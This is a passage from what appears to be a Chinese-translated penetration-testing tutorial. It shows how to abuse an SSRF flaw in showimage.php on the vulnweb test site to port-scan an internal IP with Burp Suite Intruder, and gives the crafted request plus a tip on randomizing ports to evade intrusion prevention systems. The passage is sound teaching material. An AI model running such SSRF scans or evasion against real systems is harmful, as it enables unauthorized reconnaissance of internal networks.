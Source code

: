 2.  扫描应用程序后，Burp Suite 检测到 URL（[http://testphp.vulnweb.com/showimage.php](http://testphp.vulnweb.com/showimage.php) 易受 SSRF 影响。此 PHP 文件接受 URL 作为参数，如下行所示：

```
http://testphp.vulnweb.com/showimage.php?file=http://192.168.0.1:80
```

3.  要执行自动端口扫描，我们可以使用入侵者。首先，停止请求，并将其发送给入侵者，如以下屏幕截图所示：

![](img/66226f38-91db-48dd-9b1d-1464636571f5.png)

4.  清除默认创建的通配符，并自行添加一个新通配符，如以下屏幕截图所示：

```
GET /showimage.php?file=http://192.168.0.1:port HTTP/1.1 
Host: testphp.vulnweb.com 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: close 
Cookie: login=test%2Ftest 
Upgrade-Insecure-Requests: 1 
```

现在，您可以将有效负载定义为一个列表，从 0 到 65535，我们将选择随机选项。为什么？由于一些**入侵防御系统**（**IP**）检测到对同一 IP 的顺序请求，因此通过使用随机选项，我们可以尝试避免被检测到：
